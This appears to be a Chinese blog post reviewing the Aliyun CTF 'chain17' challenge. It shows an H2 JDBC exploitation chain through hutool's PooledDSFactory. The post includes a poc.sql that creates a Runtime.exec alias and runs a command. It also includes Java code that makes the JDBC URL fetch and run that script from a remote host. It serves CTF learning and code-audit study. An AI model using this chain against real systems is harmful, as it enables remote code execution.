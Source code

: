 ```yaml
---
tags:
  - java安全
  - myblog
  - 代码审计
title: aliyun ctf chain17 回顾
date: 2024-12-15 09:25:00
---
```


# agent
## sink h2 jdbc attack

```xml
<dependency>
    <groupId>cn.hutool</groupId>
    <artifactId>hutool-all</artifactId>
    <version>5.8.16</version>
</dependency>
```

poc.sql

```sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "su18";}';
CALL EXEC ('calc')
```

attack

### official

```java
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";

Unsafe unsafe = (Unsafe) ReflectUtil.getFieldValue(null, ReflectUtil.getField(Unsafe.class, "theUnsafe"));
PooledDSFactory pooledDSFactory = (PooledDSFactory) unsafe.allocateInstance(PooledDSFactory.class);

Setting setting = new Setting();
setting.set("url",url);
ReflectUtil.setFieldValue(pooledDSFactory,"setting",setting);
HashMap<Object, Object> dsmap = new HashMap<>();
ReflectUtil.setFieldValue(pooledDSFactory,"dsMap",dsmap);

pooledDSFactory.getDataSource().getConnection();
```

unsafe.allocateInstance 这里主要是用来构造一个类。

ReflectUtil.setFieldValue  是hutool里面特有的用来反射用的。师傅们也可以用自己平时封装好的。
